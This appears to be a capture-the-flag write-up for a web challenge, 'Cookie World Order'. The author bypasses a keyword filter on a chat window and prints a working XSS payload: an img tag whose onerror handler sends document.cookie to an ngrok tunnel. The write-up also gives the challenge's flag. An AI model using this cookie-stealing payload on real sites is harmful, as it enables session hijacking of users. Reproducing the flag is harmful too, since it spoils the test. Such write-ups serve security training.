# Description
## Cookie World Order
Label: web

Good job! You found a further credential that looks like a VPN referred to as the cWo. The organization appears very clandestine and mysterious and reminds you of the secret ruling class of hard shelled turtle-like creatures of Xenon. Funny they trust their security to a contractor outside their systems, especially one with such bad habits.  Upon further snooping you find a video feed of those "Cauliflowers" which look to be the dominant lifeforms and members of the cWo. Go forth and attain greater access to reach this creature!

# Solution
This task gives us a link [https://cwo-xss.web.ctfcompetition.com/](https://cwo-xss.web.ctfcompetition.com/). The website contains a video and a chat window on the right side. It appears that we are chatting with an admin and so it probably requires another xss. However, entering a tag like `<script>` will show up as `HACKER ALERT!`  so it seems that there is some kind check that matches against words like script. Playing around with other tags like `<img>` seem to work however so we can use that instead.

Again, I setup up a ngrok tunnel and used the `onerror` attribute of the `img` tag to send to cookie. This trick I learned about from [https://xss-game.appspot.com/](https://xss-game.appspot.com/)
```html
<img src="?" onerror="document.location='http://???.ngrok.io/?'+document.cookie">
```

Pasting that in the chat window gives us the cookie `CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}`